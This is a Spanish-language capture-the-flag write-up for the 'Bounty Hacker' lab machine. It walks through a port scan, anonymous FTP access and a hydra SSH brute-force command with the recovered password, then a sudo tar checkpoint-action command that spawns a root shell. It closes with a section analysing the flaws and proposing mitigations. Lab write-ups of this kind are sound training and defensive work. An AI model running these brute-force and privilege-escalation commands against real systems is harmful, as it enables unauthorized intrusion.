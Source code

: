 # Bounty Hacker
Esta guay pero por el nombre me esperaba otro tipo de cosa, en plan algo mas rollo bug bounty idk

## Initial Scan
```
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.95.54
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).

```
## Enum
### FTP
Tenemos login Anonymous habilitado, asi que accedemos como Anonymous y vemos los dos archivos presentes
```
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
```
Nos traemos los dos a local y vemos que locks es algo que parece una lista de contraseñas, el otro parece parte del lore de la room, aunque nos deja un usuario, lin

```
hydra -l lin -P locks.txt ssh://10.10.239.220
[22][ssh] host: 10.10.239.220   login: lin   password: RedDr4gonSynd1cat3

```

Nos conectamos como lin y leemos la user.txt

## Privesc
```
User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
Ejecutamos
```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```
Y listo

# Analisís de la intrusión
### FTP login anonymous habilitado
Una mala decisión en cuanto a la configuración en el servidor FTP por parte del administrador (habilitar el login anonymous) , nos permitio acceder a  archivos sensibles, aunque en este caso se habian tomado medidas de mitigación
### SSH Bruteforcing allowed
No existe ningún tipo de medida para evitar ataques por fuerza bruta contra el servidor, si bien la contraseña es segura,  teoricamente sin protecciones al respecto sería posible obtener acceso aunque el tiempo sería elevado
### Privileged tar execuition
El usuario lin puede utilizar tar como root, lo cual nos permitio elevar privilegios a root
# Soluciones
### SSH Bruteforcing allowed
Si bien la contraseña es robusta utilizar algún tipo de protección como fail2ban en el servidor sería altamaente recomendables
### Privileged tar execution
Permitir a un usuario regular ejecutar tar como root no parece algo con mucho sentido, la principal opción para mitigar esto seria eliminar este permiso si por algún casual se diese un caso en el que esto fuera necesario lo ideal seria introducir el comando entero en /etc/sudoers limitando bastante la explotación y aun asi lo optimo seria establecer una politica de Seccomp al respecto

